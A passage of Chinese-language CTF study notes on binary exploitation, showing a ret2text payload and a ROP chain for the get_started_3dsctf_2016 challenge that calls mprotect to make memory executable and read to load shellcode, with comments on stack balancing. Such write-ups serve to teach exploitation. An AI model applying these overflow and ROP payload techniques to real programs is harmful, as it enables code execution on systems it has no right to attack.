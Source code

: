 ```
.text:000000000040058E getFlag         endp
```
或者 
payload = b"a" * 0x14 + p64(0x40058E) + p64(0x400577)


### 栈对齐2 + mprotect -- get_started_3dsctf_2016

手动压栈调用--栈不平衡问题。  [get_started_3dsctf_2016](https://www.cnblogs.com/lyxf/p/12113401.html)
mprotect调3个函数，没有进行压栈，需要pop3个出来。

`int mprotect(const void *start, size_t len, int prot);`

```python
mem_addr = 0x80EB000 #可读可写的内存,但不可执行
mem_size = 0x1000    #通过调试出来的值
mem_proc = 0x7       #可代表可读可写可执行

mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']

'''
为了连续在堆栈中执行,就是用pop3_ret来控制esp,使它往下弹掉已用的3个值.

'''
payload_01 = 'A' * 0x38
payload_01 += p32(mprotect_addr)
payload_01 += p32(pop3_ret) #执行完mprotect的返回地址,使esp往下+12

#mprotect 的三个参数
payload_01 += p32(mem_addr)   #mprotect函数参数1 修改的内存地址
payload_01 += p32(mem_size)   #mprotect函数参数2 修改的内存大小
payload_01 += p32(mem_proc)   #mprotect函数参数3 修改的权限

payload_01 += p32(read_addr) #执行完pop3_ret后弹到read地址

payload_01 += p32(pop3_ret)  #执行完read后将返回到pop3_ret指令,又继续使esp+12

#read 的三个参数
payload_01 += p32(0)     #read函数参数1 ,从输入端读取
payload_01 += p32(mem_addr)   #读取到的内容复制到指向的内存里
payload_01 += p32(0x100) #读取大小

payload_01 += p32(mem_addr)   #执行完read后ret esi

```

### 编译与执行
https://blog.csdn.net/qq_43430261/article/details/105516051

程序执行顺序 start => __libc_start_main(main函数是从这里被call的), 所以stack有lib_c_start_main+231的ret addr
#### 关闭 canary等 保护机制
